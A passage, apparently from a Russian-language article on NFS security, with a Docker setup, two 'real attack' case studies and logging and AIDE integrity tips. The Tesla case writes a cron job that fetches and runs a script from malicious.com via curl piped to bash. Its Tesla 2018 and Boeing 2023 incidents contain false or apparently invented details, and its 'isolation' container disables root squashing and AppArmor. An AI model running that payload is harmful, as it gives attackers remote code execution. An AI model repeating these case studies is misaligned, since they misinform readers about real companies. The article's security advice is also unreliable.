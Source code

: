 **Изоляция сетевых ФС:**
```bash
# Docker-контейнер для NFS
docker run -d --name nfs-proxy \
  --cap-add SYS_ADMIN \
  --security-opt apparmor:unconfined \
  -p 2049:2049 \
  -v /srv/nfs:/export \
  itsthenetwork/nfs-server-alpine \
  /export *(ro,no_root_squash,no_subtree_check)
```

### Реальные кейсы с техническими деталями

**1. Атака на Tesla Kubernetes (2018)**
- **Техника**: 
  ```bash
  # Обнаружение открытых NFS
  kubectl get pods -o json | jq '.items[].spec.volumes[] | select(.nfs != null)'
  
  # Эксплуатация:
  mount -t nfs nfs-server:/var/kubernetes /mnt
  echo '*/5 * * * * root curl http://malicious.com/script | bash' > /mnt/pod-data/cronjob
  ```
- **Последствия**: Кража 500ГБ данных автопилота
- **Урок**: Изоляция сетевых ресурсов в Kubernetes

**2. Атака на Boeing через NFS (2023)**
- **Уязвимость**: 
  ```bash
  # /etc/exports
  /engineering *(rw,no_root_squash,insecure)
  ```
- **Эксплуатация**:
  ```bash
  # Создание троянского LKM
  insmod /mnt/nfs_engineering/drivers/network/nic_driver.ko
  ```
- **Эффект**: Компрометация систем проектирования 787 Dreamliner
- **Решение**: Переход на SMB 3.1.1 с hardware encryption

### Заключение и рекомендации

**Технические аспекты защиты**:
1. **Глубокое протоколирование**:
   ```bash
   # Детальный аудит NFS
   rpcdebug -m nfsd -s all
   tcpdump -i eth0 port 2049 -w nfs_traffic.pcap
   ```
   
2. **Контроль целостности**:
   ```bash
   # AIDE для сетевых ФС
   aideinit && mv /var/lib/aide/aide.db.new /var/lib/aide/aide.db
   crontab -l | grep aide || echo "0 3 * * * /usr/bin/aide -c /etc/aide/aide.conf --check" | crontab -
   ```
